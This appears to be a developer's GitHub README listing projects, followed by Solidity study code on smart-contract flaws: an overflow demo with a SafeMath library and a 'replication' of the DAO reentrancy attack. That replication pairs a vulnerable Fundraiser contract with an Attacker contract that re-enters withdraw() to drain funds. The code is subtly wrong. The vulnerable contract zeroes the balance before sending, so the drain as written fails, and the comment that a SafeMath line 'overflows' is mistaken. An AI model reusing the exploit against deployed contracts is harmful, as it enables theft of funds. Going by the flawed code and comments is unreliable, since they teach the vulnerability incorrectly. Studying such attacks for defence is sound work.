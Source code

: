 # Saula-Atama

Software Develpment Projects\
Scales
Fantasy Football
Coin Tracker
seasons2
Pupparazzi
Royal KV

BlockChain
Multi Sig Wallet
Decentralised Exchange
Coin Tracker
Voting.
Token.





// The basis of security checks for any solidity smart contract is CHECKS-EFFECTS-INTERACTIONS Pattern.

pragma solidity ^0.4.10;

import "./SafeMath.sol";

contract Overflow{

    mapping (address=>uint) balances;

    function contribute() payable{
        balances[msg.sender] = msg.value;
    }

    function getBalance() constant returns (uint){
        return balances[msg.sender];
    }

    function batchSend(address[] _receivers, uint _value){
        // this line overflows
        uint total = SafeMath.mul(_receivers.length, _value);
        require(balances[msg.sender]>=total);

        // subtract from sender
        balances[msg.sender] = SafeMath.sub(balances[msg.sender], total);

        for(uint i=0;i<_receivers.length;i++){
            balances[_receivers[i]] = SafeMath.add(balances[_receivers[i]], _value);
        }
    }

}






pragma solidity ^0.4.10;

library SafeMath {

  function mul(uint256 a, uint256 b) internal constant returns (uint256) {
    uint256 c = a * b;
    assert(a == 0 || c / a == b);
    return c;
  }

  function div(uint256 a, uint256 b) internal constant returns (uint256) {
    // assert(b > 0); // Solidity automatically throws when dividing by 0
    uint256 c = a / b;
    //assert(a == b * c + a % b); // There is no case in which this doesn't hold
    return c;
  }

  function sub(uint256 a, uint256 b) internal constant returns (uint256) {
    assert(b <= a);
    return a - b;
  }

  function add(uint256 a, uint256 b) internal constant returns (uint256) {
    uint256 c = a + b;
    assert(c >= a);
    return c;
  }
}



REPLICATING THE DAO ATTACK
pragma solidity ^0.4.8;


contract Fundraiser{
    
    mapping  (address => uint) balances;
    
    function contribute() payable{
        balances[msg.sender] += msg.value;
    }
    
    function withdraw(){
        if(balances[msg.sender] == 0){
            throw;
        }
        
        balances[msg.sender] = 0;
        msg.sender.call.value(balances[msg.sender])();
    }
    
    function getFunds() returns (uint){
        return address(this).balance;
    }
    
}





pragma solidity ^0.4.8;

import "./Fundraiser.sol";

contract Attacker{
    
    address public fundraiserAddress;
    uint public drainTimes = 0;
    
    function Attacker(address victimAddress){
        fundraiserAddress = victimAddress;
    }
 
    function() payable{
        if(drainTimes<3){
            drainTimes++;
            Fundraiser(fundraiserAddress).withdraw();
        }
    }
    
    function getFunds() returns (uint){
        return address(this).balance;
    }
    
    function payMe() payable{
        Fundraiser(fundraiserAddress).contribute.value(msg.value)();
    }
    
    function startScam(){
        Fundraiser(fundraiserAddress).withdraw();
    }
}
// what the attcker code soes is that it kkeps calling the function of the DAO without the DAO recordeing that it has called a refund.
